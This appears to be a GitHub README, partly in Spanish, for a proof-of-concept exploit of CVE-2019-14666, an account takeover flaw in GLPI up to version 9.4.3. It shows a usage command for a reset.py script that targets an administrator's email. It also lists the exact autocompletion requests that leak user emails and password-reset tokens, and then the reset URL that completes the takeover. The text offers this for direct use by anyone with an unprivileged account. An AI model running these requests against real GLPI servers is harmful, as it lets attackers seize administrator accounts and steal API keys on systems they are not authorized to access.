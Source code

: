# GLPI-9.4.3-Account-Takeover
Discovery and original PoC made by Pablo Martinez just adjusted slightly for python3

Básicamente cambia en glpi 9.4.3 donde tienes un usuario sin privilegios por uno con mas privilegios. Ya sea un usuario normal o administrador, si tienes el email, con esto puedes cambiar su clave.

Únicamente hay que usar el reset.py rellenando con tus datos, pero también explica Pablo los pasos que ha hecho dentro del código reset.py

# GLPI-9.4.3-Account-Takeover
Discovery and original PoC made by Pablo Martinez just adjusted slightly for python3

#### Example
python3 reset.py --url http://localhost/ --user normal --password normal --email glpi_adm@test.com --newpass test


Sofware: GLPI 
Version: <= 9.4.3 
Discovered by: Pablo Martinez (@Xassiz)
Fix: version 9.4.4
Vulnerability: Account takeover (CVE-2019-14666)
Description:
We've found that it's possible to abuse autocompletion feature to retrieve sensitive data from any user, using an unprivileged account.
Besides hashed session cookies or api keys in cleartext, a malicious user can retrieve the password_forget_token atributte which leads to account takeover when "Lost password" feature is enabled.
The steps are the following:


    1. Choose a known email or get a list of them using autocompletion
        GET /glpi/ajax/autocompletion.php?itemtype=UserEmail&field=email&term=
     
    2. Get a list of all generated tokens
        GET /glpi/ajax/autocompletion.php?itemtype=User&field=password_forget_token&term=
 
    3. Invoke "Lost password" with target email
    4. Get a list of all generated tokens again and compute the difference to get your freshly generated token
 
    5. Set new password using /glpi/front/lostpassword.php?password_forget_token=[token]
    
To sum up: an unprivileged user could steal any account or escalate privileges by changing super-admin password. It's also possible to steal admins' api keys and use them with malicious purposes.
